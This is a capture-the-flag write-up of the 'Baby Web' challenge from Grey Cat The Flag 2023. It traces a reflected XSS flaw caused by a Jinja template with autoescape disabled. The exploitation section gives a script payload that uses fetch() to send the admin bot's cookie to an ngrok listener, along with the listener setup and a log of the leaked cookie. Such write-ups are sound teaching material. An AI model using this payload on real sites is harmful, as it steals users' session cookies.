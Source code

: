 # Baby Web

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 152 solves / 50 points
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This website seems to have an issue. Let's report it to the admins.

- Junhua

[http://34.124.157.94:5006/](http://34.124.157.94:5006/)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230519221707.png)

In here, we can report an issue to admins, and it says "Only admins with a special cookie can see the tickets.".

***So, our goal is to exploit some client-side vulnerabilities like Cross-Site Scripting (XSS) to exfiltrate the admin bot's cookie??***

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web/dist.zip):**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:18:31(HKT)]
└> file dist.zip 
dist.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:18:31(HKT)]
└> unzip dist.zip 
Archive:  dist.zip
  inflating: adminbot.py             
  inflating: constants.py            
  inflating: dockerfile              
 extracting: requirements.txt        
  inflating: server.py               
  inflating: templates/base.html     
  inflating: templates/index.html    
  inflating: templates/ticket.html   
```

In `server.py`, we can see how all the routes are being implemented.

**In route `/`, we see this:**
```python
BASE_URL = "http://localhost:5000/"


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "GET":
        return render_template('index.html')
    
    message = request.form.get('message')
    if len(message) == 0:
        flash("Please enter a message")
        return render_template('index.html')

    link = f"/ticket?message={quote(message)}"

    # Admin vists the link here
    visit(BASE_URL, f"{BASE_URL}{link}")

    return redirect(link)
```

When we send a POST request to route `/`, it'll parse our ticket's message to a link: `/ticket?message={quote(message)}`, then the admin bot will visit the link at `http://localhost:5000/ticket?message={quote(message)}`. Finally, we'll be redirected to `/ticket` with GET parameter `message`.

**Route `/ticket`:**
```python
@app.route('/ticket', methods=['GET'])
def ticket_display():
    message = request.args.get('message')
    return render_template('ticket.html', message=message)
```

When GET parameter `message` is provided, it'll parse the `message` to `ticket.html` template and render it.

**Template `ticket.html`:**
```html
{% extends 'base.html' %}
{% block content %}
<h1>This is your admin ticket content</h1>
{% autoescape false %} {{ message }} {% endautoescape %}
{% endblock %}
```

Hmm? **`autoescape` set to `false`?**

According to [CodeQL documentation](https://codeql.github.com/codeql-query-help/python/py-jinja2-autoescape-false/), it said:

> Cross-site scripting (XSS) attacks can occur if untrusted input is not escaped. This applies to templates as well as code. The `jinja2` templates may be vulnerable to XSS if the environment has `autoescape` set to `False`. Unfortunately, `jinja2` sets `autoescape` to `False` by default. Explicitly setting `autoescape` to `True` when creating an `Environment` object will prevent this.

That being said, **template `ticket.html` should be vulnerable to XSS.**

```html
/ticket?message=<script>alert(document.domain)</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230519223905.png)

But how the admin bot visit the link?

**In `adminbot.py`, we see this:**
```python
from selenium import webdriver
from constants import COOKIE
import multiprocessing
from webdriver_manager.chrome import ChromeDriverManager

options = webdriver.ChromeOptions()
options.add_argument("--headless")
options.add_argument("--incognito")
options.add_argument("--disable-dev-shm-usage")
options.add_argument("--no-sandbox")

def visit(baseUrl: str, link: str) -> str:
    """Visit the website"""
    p = multiprocessing.Process(target=_visit, args=(baseUrl, link))
    p.start()
    return f"Visiting {link}"

def _visit(baseUrl:str, link: str) -> str:
    """Visit the website"""
    with webdriver.Chrome(ChromeDriverManager().install(), options=options) as driver:
        try:
            driver.get(f'{baseUrl}/')
            cookie = {"name": "flag", "value": COOKIE["flag"]}
            driver.add_cookie(cookie)
            driver.get(link)
            return f"Visited {link}"
        except:
            return f"Connection Error: {link}"
```

Basically it first visit `http://localhost:5000/`, then, add cookie `flag` with the flag value. Finally, visit the `link`, which is `/ticket?message={quote(message)}`.

> Note: The `quote` from `urllib.parse` library is to URL encode the message, nothing to do with XSS protection. Also, the `flag` cookie doesn't have HttpOnly enabled, this allows us to use `document.cookie` API to fetch the cookie's value.

## Exploitation

**With that said, we can craft a payload that sends the admin bot's flag cookie:**

- Setup a port forwarding service, like Ngrok:

```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:49:25(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://d347-{Redacted}.ngrok-free.app -> http://localhost:80            
[...]
```

- Setup a web server, like Python's `http.server`:

```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:50:04(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Submit a new ticket with the following XSS payload:

```html
<script>fetch(`https://d347-{Redacted}.ngrok-free.app/?c=${document.cookie}`);</script>
```

This payload will send a GET request to my Ngrok port forwarding service with GET paremeter `c` and the `flag`'s cookie value using `fetch()` API.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230519231102.png)

```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:50:04(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [19/May/2023 23:08:45] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [19/May/2023 23:08:45] "GET /?c=flag=grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c} HTTP/1.1" 200 -
```

We got the flag!

- **Flag: `grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`**

## Conclusion

What we've learned:

1. Leaking Cookies Via Reflected XSS